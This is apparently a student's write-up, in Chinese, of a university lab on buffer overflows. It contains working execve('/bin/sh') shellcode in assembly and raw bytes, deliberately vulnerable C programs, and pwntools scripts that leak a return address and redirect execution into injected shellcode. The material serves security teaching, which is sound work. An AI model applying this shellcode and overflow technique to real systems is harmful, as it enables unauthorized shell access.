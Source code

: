 # Lab5 Buffer overflow

## Challenge #1 Shellcode
>  try to invoke a shell, e.g., /bin/sh
```c
int main() {
	char buf[512];
	shellcode_t code = (shellcode_t) buf;

	setvbuf(stderr, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stdin,  NULL, _IONBF, 0);

	if(getenv("NO_SANDBOX") == NULL)
		sandbox();

	printf("Enter your code> ");
	read(0, buf, sizeof(buf));
	code();

	return 0;
}
```
只需將網路上查到的/bin/bash的shellcode直接輸入到code裡面即可
https://github.com/imbianyunren/Adv_UNIX_2024/blob/main/Lab5/chal_1.py
可以使用asm實作 或是直接拿別人寫好一行的code
```python
codes = """
    xor rsi,rsi
	push rsi
	mov rdi,0x68732f2f6e69622f
	push rdi
	push rsp
	pop rdi
	push 59
	pop rax
	cdq
	syscall
"""
payloads = asm(codes)
```
```python!
payloads = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
```

## Challenge #2 buffer overflow with no canary
我把注解放在原始code裡面
```c!
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <seccomp.h>
#include <sys/mman.h>

static char msg[512];

int task() {
	char buf[32]; // buffer只有開32

	printf("===========================================\n");
	printf("Welcome to the UNIX Hotel Messaging Service\n");
	printf("===========================================\n");

	printf("\nWhat's your name? ");
	read(0, buf, 256); // buffer只有開32，可是這裡可以輸入256bytes, 可以從這裡輸入超過buf大小的內容
	printf("Welcome, %s", buf); // 這邊有機會能夠吐出後面多餘的內容(因為read會一路讀到記憶體內容為0為止)

	printf("\nWhat's the room number? ");
	read(0, buf, 256);
	printf("The room number is: %s", buf);

	printf("\nWhat's the customer's name? ");
	read(0, buf, 256);
	printf("The customer's name is: %s", buf);

	printf("\nLeave your message: ");
	read(0, msg, sizeof(msg)); //msg這個參數有使用mrprotect賦予exec參數，所以要把/bin/sh的shellcode放在這裡
	printf("Thank you!\n");

	return 0;
}

int main() {
	setvbuf(stderr, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stdin,  NULL, _IONBF, 0);
	if(mprotect((void *) (((long) msg) & 0xfffffffffffff000L), 4096, PROT_READ|PROT_WRITE|PROT_EXEC) != 0) {
		perror("mprotect");
	} else {
		task();
	}
	return 0;
}
```
整體來說基本上是利用buf這個參數會overflow吐出記憶體後面的內容
```python
payloads = b'A'*40 
r.recvuntil(b'name? ')
r.send(payloads)

z = r.recvline()
print(z)
print(u64(z.split(b'A'*40)[1][:-1].ljust(8,b'\x00')))
addr = u64(z.split(b'A'*40)[1][:-1].ljust(8,b'\x00'))
print(hex(addr))
```
老師一開始是說直接在buf送40個A去看會吐出甚麼:
```!
b'Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xe4\xaa\xa0\xa5\xc4\x7f\n'

0x7fc4a5a0aae4 <-後面吐出來的hex
```

可以看到後面吐出一串東西，再從gdb-peda設斷點在`main`, `read(0, buf, 256)`來觀察記憶體內容
```
In terminal
-> gdb
-> file ./bof1
-> b 22 (read(0, buf, 256))
-> b 23 (輸入完觀察記憶體用)
-> b 35
-> r
```

執行run後可以看到要輸入buf的位置在rbp-0x20(32)，這也是為什麼要輸入40個字(A)，因為蓋過去後後面輸出的內容就會是rbp+08(return address)

![image](https://hackmd.io/_uploads/SyQXF824R.png)


OR可以在輸入完40個A後在gdb輸入`x/32x $rsp`看現在stack裡面內容
![image](https://hackmd.io/_uploads/r1NUfv2EA.png)

從下面圖(老師上課的圖不是題目的)可以看到rbp+08存的是return address，最後task()執行完要回main的時候會來這裡照rbp+08裡面地址執行
![image](https://hackmd.io/_uploads/B1F2tI34A.png)


(更: 測試時發現gdb執行他發現溢位的話會變成`7ffff7f2ea0a`，但如果是在./chal_1.py執行時會正常溢出要的位置，所以**7ffff7f2eae4才是ret address**)
所以`7ffff7f2eae4`就是return address，且也是在輸入40個A後後面會吐出的字串內容
![image](https://hackmd.io/_uploads/SJcdiw2NA.png)


那msg的地址在哪裡?把斷點設`在35行	printf("Thank you!\n");`看看
他會執行到`leave message:`，接著在這邊輸入隨便一組字`('123')`，在下一行到print(thank you)會停下
![image](https://hackmd.io/_uploads/B1v_bvn4C.png)
此時看剛輸入的`123`就在`$rsi`裡，msg地址是`0x7ffff7ff91e0`

所以我們從中得到:
Return Address: $rbp+8 = 0x7ffff7f2eae4
msg Address: 0x7ffff7ff91e0
兩者距離: 
Hex value: 7ffff7ff91e0 – 7ffff7f2eae4 = **CA6FC**

### 攻擊邏輯
1. 第一次輸入buf時取得ret addr = 7ffff7f2eae4
2. 將前面計算好ret addr與msg距離放入下一次要輸入buf的payload
```python
msg = addr + int("0xCA6FC",16) #msg addr
payloads = b'A'*40 + p64(msg, endian='little')
r.send(payloads)
```
3. 在leave msg那行放入shellcode
```python
r.send(shellcode)
```
4. 等最後要return時就會直接去執行msg的地址，也就是shellcode
5. 測試ls, cat file可不可以執行
![image](https://hackmd.io/_uploads/HJqfawnVC.png)


